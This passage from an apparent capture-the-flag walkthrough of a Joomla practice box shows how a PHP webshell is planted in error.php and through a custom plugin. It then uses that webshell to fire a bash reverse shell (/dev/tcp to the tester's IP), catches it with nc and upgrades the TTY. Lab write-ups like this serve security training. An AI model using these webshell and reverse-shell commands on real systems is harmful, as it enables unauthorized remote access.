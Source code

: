 I’ll add the following PHP code to the top of `error.php`:

![image-20240423082539183](https://0xdf.gitlab.io/img/image-20240423082539183.png)

If the argument `0xdf` is passed, run it with `system` and stop, and otherwise do the page as normal. It works:

![image-20240423082619177](https://0xdf.gitlab.io/img/image-20240423082619177.png)

### Via Webshell Plugin

Before finding a writable file, I just wrote a plugin for Joomla. Searching for Joolma webshell plugins will return many perfectly good results (like [this](https://github.com/p0dalirius/Joomla-webshell-plugin)), but it’s more fun to make my own. I’ll start with [this Joomla page](https://docs.joomla.org/J4.x:Creating_a_Plugin_for_Joomla) on making Plugins, and trim it down to just what’s necessary. I’ll walk through the process in [this quick video](https://www.youtube.com/watch?v=sdF8YSPHql4):

At the end, I have a webshell:

![image-20240423150735374](https://0xdf.gitlab.io/img/image-20240423150735374.png)

### Shell

From either webshell, I’ll get a shell by running a standard [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) with it:

```
oxdf@hacky$ curl http://dev.devvortex.htb/plugins/search/webshell/evil.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'

```

I get a connection at `nc`:

```
oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.242 57742
bash: cannot set terminal process group (877): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$

```

I’ll upgrade my shell with [the standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```
www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ script /dev/null -c bash
Script started, file is /dev/null
www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$

```
